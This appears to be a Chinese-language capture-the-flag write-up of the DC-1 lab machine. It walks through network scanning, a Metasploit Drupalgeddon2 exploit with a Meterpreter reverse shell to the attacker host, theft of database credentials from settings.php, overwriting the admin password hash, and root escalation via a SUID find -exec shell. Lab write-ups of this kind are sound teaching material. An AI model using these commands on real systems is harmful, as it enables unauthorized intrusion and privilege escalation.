复现 DC-1 靶场（SUID提权）的完整渗透过程。

## 环境准备

完成环境搭建，DC-1和Kali虚拟机已就绪。

同属于192.168.200.0/24网段下，均为NET网络连接。

Kali虚拟机ip 192.168.200.133



## 信息收集：寻找目标与端口扫描

可见网段是192.168.200.0/24，扫描该网段，找到目标靶机DC-1

```bash
nmap -sP 192.168.200.0/24
```



排除网关192.168.200.1 192.168.200.2

排除广播192.168.200.254

排除本机192.168.200.133

显然192.168.200.132就是DC-1靶机

扫描目标端口

```bash
nmap -A -p- -v 192.168.200.132
```



可以找到

- 22端口的OpenSSH 6.0p1
- 80端口的Apache 2.2.22
- 111/tcp
- 5139/tcp

## Web 服务识别

显然80端口有个网站，去访问192.168.200.132的80端口



Drupal 作为流行的 PHP CMS

从nmap可知是Drupal7架构的CMS

## Metasploit 的漏洞查找与利用 Getshell

用metasploit看看drupal 可以利用的漏洞

```bash
msfconsole
```

```bash
search drupal
```



用这个远程执行漏洞

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

查看当前需要参数

```bash
show options
```

填入需要的参数，靶机ip 和目标端口

```bash
set RHOSTS 192.168.200.132
set RPORT 80
```

靶机是php环境/meterpreter shell/反向连接

```bash
set payload php/meterpreter/reverse_tcp
```

本机ip和监听端口

```bash
set LHOST 192.168.200.133
set LPORT 4444
```

运行

```bash
Run
```



成功连接，查看基础配置，确认是DC-1靶机



生成一个交互式shell，原来那个看起来太难受了

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

## Flag1：查看当前目录

查看当前目录，发现flag1



```bash
cat flag1.txt
```



flag1内容：每个好的CMS都需要一个配置文件——你也是。

上面翻译，提示我们需要去找CMS配置文件

配置文件大都是这样的，我们查找一下，config、Settings等

```bash
find . -name "con*"
```

貌似没有

```bash
find . -name "set*"
```



看看是不是



找到flag2了

## Flag2：配置文件，数据库登录，MySQL 修改 admin 密码

flag2内容：暴力破解和字典攻击并不是获取访问权限的唯一途径（你肯定需要访问权限）。使用这些凭据，你可以做什么？

这是数据库配置文件，数据库账号密码以及数据库名字

```php
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
'prefix' => '',
```

这提示接下来要去数据库里面找账号密码

尝试登录一下

```bash
mysql -udbuser -pR0ck3t
```



```sql
show databases;
```

找到两个数据库，看看drupaldb里面

```sql
use drupaldb;
```



```sql
show tables;
```



```sql
select * from users;
```



密码被加密了，哈希加密？

直接改肯定不行，我们需要同样的加密密码，或者说加密方式，来让我们新建一个或者直接改admin的

去找到这个密码的加密方式，搜了一下，这是Drupal 自带脚本生成新哈希

```bash
./scripts/password-hash.sh
```



后面直接加密码就可以了，得到哈希

```bash
./scripts/password-hash.sh 123456
```

得到哈希：

```text
$S$D6wT3bSlxEJJxqbokmIY2GfIPBsJZ3DJFd4VGBTY0xLoWcyBWNIY
```

接下来我们回去数据库改密码就可以了

```sql
update users set pass='$S$D6wT3bSlxEJJxqbokmIY2GfIPBsJZ3DJFd4VGBTY0xLoWcyBWNIY' where name="admin";
```



## Flag3：登录后台

去访问192.168.200.132的80，登录即可，账号admin，密码123456



然后在左上角发现了flag3





flag3提示：特殊权限能帮你找到 passwd 文件——但你得用 -exec 参数来执行命令，才能读取 shadow 里的内容。

所以接下来我们要提权，去看passwd

## Flag4：passwd 与用户家目录

但貌似我们有权限能直接看？



这里发现有一个Flag4的用户

去家目录看看

```bash
cd /home/flag4
ls
cat flag4.txt
```



flag4提示：你能用同样的方法在 root 里找到或者访问那个 flag 吗？

可能可以。但也许没那么容易。或者，也许很简单？

提示我们下一个在root的家目录

```bash
cat /root
```

发现没有权限，那接下来就是提权了



## Flag5：SUID 提权，root目录下的Flag5

查找sudo的文件，属于 root 的有 s 权限的文件

```bash
find / -perm -u=s -type f 2>/dev/null
```



at 是不行的

```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

被拉黑了

只有find

```bash
find . -exec /bin/sh \; -quit
```



成功提权

```bash
cd /root
ls
cat thefinalflag.txt
```



Flag1-5均找到了，成功完成DC-1靶机的渗透！

---

### DC-1 渗透测试流程图


```mermaid
graph TD
    A["环境准备<br/>DC-1 与 Kali 同处 192.168.200.0/24 网段<br/>Kali 攻击机 192.168.200.133"] --> B["信息收集<br/>nmap -sP 扫描网段<br/>目标 DC-1 192.168.200.132"]
    B --> C["nmap -A -p- 全端口扫描<br/>发现 22 SSH、80 Apache<br/>识别 CMS 为 Drupal 7"]
    C --> D["访问 192.168.200.132:80"]
    D --> E["Metasploit<br/>search drupal 找到 drupalgeddon2"]
    E --> F["set 参数并 Run<br/>获得 php/meterpreter 会话"]
    F --> G["python 生成交互 shell<br/>当前目录发现 Flag1"]
    G --> H["按 Flag1 提示找 CMS 配置文件<br/>find set* 找到 settings.php<br/>发现 Flag2 与数据库凭据"]
    H --> I["mysql 登录 drupaldb<br/>查询 users 表发现加密密码"]
    I --> J["./scripts/password-hash.sh 生成哈希<br/>update users 修改 admin 密码"]
    J --> K["登录 Drupal 后台<br/>左上角发现 Flag3"]
    K --> L["按 Flag3 提示查看 /etc/passwd<br/>发现 flag4 用户<br/>读取 /home/flag4/flag4.txt 得到 Flag4"]
    L --> M["尝试 cat /root 无权限<br/>find 查找 SUID 文件"]
    M --> N{"at 提权?"}
    N -->|被拉黑| O["find . -exec /bin/sh \\; -quit<br/>提权成功"]
    O --> P["cd /root 读取 thefinalflag.txt<br/>得到 Flag5<br/>Flag1-5 全部找到，成功通关"]
```

### 总体思路总结与吐槽

- 信息收集：`nmap -sP` 扫网段定位 DC-1（192.168.200.132），再用 `nmap -A -p- -v` 全端口扫描，发现 22、80、111、5139 端口，确认 80 端口是 Drupal 7。
- 权限获取：Metasploit 用 `drupal_drupalgeddon2` 直接拿 meterpreter 会话；按 flag1 提示找到 `settings.php`，拿到数据库账号密码（flag2）；用 Drupal 自带 `./scripts/password-hash.sh` 生成新哈希，在数据库里改掉 admin 密码，登录后台拿到 flag3。
- 提权与收尾：`/etc/passwd` 里发现 flag4 用户，读到家目录的 flag4；常规 SUID 提权时 `at` 被拉黑，改用经典的 `find . -exec /bin/sh \; -quit` 拿到 root，读取 `thefinalflag.txt`，五个 flag 全部找到。


跟着5个flag的提示来进行就可以了。SUID提权只能用find命令。


metasploit 依旧轮椅。
